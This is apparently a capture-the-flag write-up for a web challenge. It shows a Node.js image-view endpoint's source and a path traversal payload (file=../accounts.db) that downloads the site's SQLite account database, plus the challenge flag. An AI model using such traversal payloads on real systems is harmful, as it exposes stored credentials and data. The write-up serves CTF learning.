






# eXamine-Search-Sabotage
### Category: Web Exploitation

### Prompt:


Visiting the website http://143.244.138.133:5000/ yields a login/register page.
- If a user doesn't exist in the database, an account is created.
- If it already exists, an 'Incorrect Password' prompt is thrown.



Upon logging-in, we can see the post request


There is a parameter view-source, setting it to true, the cookies are set


```
ZionCTFHint1=source_code_is_in_/index.js
ZionCTFHint2=photos_are_in_1_level_deep_subfolder_/images/
```

The source code can be found out at http://143.244.138.133:5000/index.js
You can get the source-code from /source in my GitHub repository.

Lets continue digging,

Upon logging in, we have an image view functionality with the following post request

```
POST /view HTTP/1.1
Host: 143.244.138.133:13000
Content-Length: 19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://143.244.138.133:13000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://143.244.138.133:13000/page
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

file=Westfjords.png
```

So, we can actually test out the /images/ directory by visiting http://143.244.138.133:13000/images/Westfjords.png which exists.

Reading up the source-code, the important segment is

```js
app.post('/view', (req, res)=>{
    try {
        let addr = path.join(__dirname, 'images', req.body.file)
        if (fs.existsSync(addr)) {
            //if (Number((addr.match(/\.\.\//g) || []).length < 2) {
            if (addr.startsWith(__dirname)) {
                res.sendFile(addr);
            } else {
                res.status(404).send(`Nice try! But not quite there yet... `)
            }
        } else {
            res.status(404).send(`Nice try! But not quite there yet... `)
        }
    } catch (exception) {
        res.status(500).send("Oops, an unexpected error occurred!")
    }
})
```

So what this does is,
- takes the value of file parameter
- generates a path (pwd+images+file) [pwd is present working directory]
- fs.existsSync checks if the file exists or not
- file is only returned if the path starts with pwd

So, the path after joining must begin with pwd.
This means we can only access the files that are 1 directory up in the filesystem.

So, if the pwd is $(path)

Then Westfjords.png is at $(path)/images/Westfjords.png

So, we can use a ../ and access the files of $(path).

Another key observation is
```js
const db = new sqlite3.Database('accounts.db');
```

So we can simply fetch the database by file=../accounts.db



The accounts.db is a sqlite file which can be accessed.
Using, https://inloop.github.io/sqlite-viewer/ to access the sqlite database



Et voila! We have the flag

```
zionctf{uh_0h_y0u_f0und_th3_DB!_55ak9prmnQY1w}
```
